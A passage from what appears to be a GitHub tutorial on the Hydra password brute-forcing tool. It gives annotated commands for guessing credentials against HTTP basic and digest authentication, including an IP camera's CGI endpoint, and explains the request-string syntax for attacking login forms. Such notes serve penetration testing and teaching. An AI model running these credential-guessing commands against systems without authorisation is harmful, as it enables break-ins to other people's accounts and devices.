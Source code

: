 ```shell
hydra -L users.txt -P words.txt www.site.com -e ns http-head /private/
# here we do the same thing as before, but we add combinations with
# `-e ns`, so we are also trying with an empty password for each
# of the users and with passwords equal to the username for each user
```

### [](https://github.com/gnebbia/hydra_notes#http-digest-authentication)HTTP Digest Authentication

```shell
hydra -l root -P test.txt -vV localhost http-get /forbidden-d2
# uses the username root with passwords from the file called test.txt
# it runs in verbose mode on localhost through http-get module we specify
# that this is an HTTP digest authentication found at path /forbidden-d2
```

```shell
hydra -l admin -P 1000_common_passwords.txt -s 8090 -f 192.168.1.4 http-get /get_camera_params.cgi
# uses the username admin with passwords from the file called
# 1000_common_passwords.txt it runs on port 8090 through 
# the -f flag it will stop as soon as it finds the first valid credentials
# the http-get module is specified to denote the presence of an HTTP digest
# authentication at the path /get_camera_params.cgi
```

### [](https://github.com/gnebbia/hydra_notes#http-forms)HTTP Forms

When it comes to HTTP login forms, we generally have to inspect the web application, searching for messages which will appear on successful or failed logins.

Generally for HTTP forms we will have hydra commands with the following structure:

```shell
hydra -L <users_file> -P <password_file> <url> http[s]-[post|get]-form \
"index.php:param1=value1&param2=value2&user=^USER^&pwd=^PASS^&paramn=valn:[F|S]=messageshowed"
```

Where depending on the webpage and on the post we can have after url:

- http-get-form, in case of an http page with a get form
- https-get-form, in case of an https page with a get form
- http-post-form, in case of an http page with a post form
- https-post-form, in case of an https page with a post form

and after this a string we specify the "request string" which will contain the following elements separated by a colon `:`:

- pageOnWhichTheLoginHappens
- list of parameters, here we have to specify with ^USER^ and ^PASS^ where usernames and passwords will be inserted
- a character which may be F (for failing strings) or S for successful strings followed by an equal sign `=` and a string which appears in a failed attempt or in a successful attempt, if we do not specify F or S, F is the default also because this is the more natural option, we generally know which strings will appear when we fail a login but not the ones which will appear when it is successful (unless we are dealing with a known web technology/framework). Let's see some examples, We can specify a failure string with `:F=mystringincaseoffailure` while we can specify a success string with `:S=mystringincaseofsuccess`. But we may also see online `:mystring` and it will be the equivalent of `:F=mystring`
